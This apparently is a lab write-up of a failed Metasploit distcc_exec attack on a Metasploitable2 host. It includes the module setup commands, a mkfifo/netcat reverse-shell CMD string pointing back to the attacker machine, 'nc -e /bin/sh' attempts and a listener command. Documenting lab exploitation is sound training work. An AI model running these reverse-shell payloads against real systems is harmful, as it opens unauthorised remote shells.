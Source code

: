 #  Failed Exploit Attempt: distcc Daemon Remote Command Execution

# Target
- **Service**: distccd (Distributed Compiler Daemon)
- **Port**: 3632/tcp
- **Host**: 192.168.6.3 (Metasploitable2)

# Objective
Attempt to achieve remote code execution via the `distcc_exec` exploit by leveraging insecure command execution in the distccd daemon.

# Tool Used
- **Metasploit Framework**
  - Module: `exploit/unix/misc/distcc_exec`
  - Payloads attempted:
    - `cmd/unix/reverse_bash`
    - Manual reverse shells with custom `CMD` strings

# Exploit Steps Attempted

1. **Initial Setup:**
   ```bash
   use exploit/unix/misc/distcc_exec
   set RHOSTS 192.168.6.3
   set LHOST 192.168.6.4
   set LPORT 4444

2. Default Payload Attempt:

Used cmd/unix/reverse_bash (default)

Result: Exploit completed, but no session was created

3. Custom CMD Payloads Attempted:

set CMD "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.6.4 4999 >/tmp/f"

Reverse Listener set up: 

nc -lvnp 4999

Result: Listener timed out; exploit failed to trigger shell

4. Netcat-based Reverse Shell Attempts:

Multiple payloads using nc -e /bin/sh ... failed to trigger connection

Metasploit errors included:

Unknown datastore option: CMD

Handler failed to bind

Exploit completed, but no session was created

# Observations

Port 3632 was open and distccd was responsive.

Commands reached the target but did not execute successfully.

Netcat and Bash shell reverse commands returned:

bash: /dev/tcp/192.168.6.4/XXXX: No such file or directory

Possible missing /dev/tcp support or filtered traffic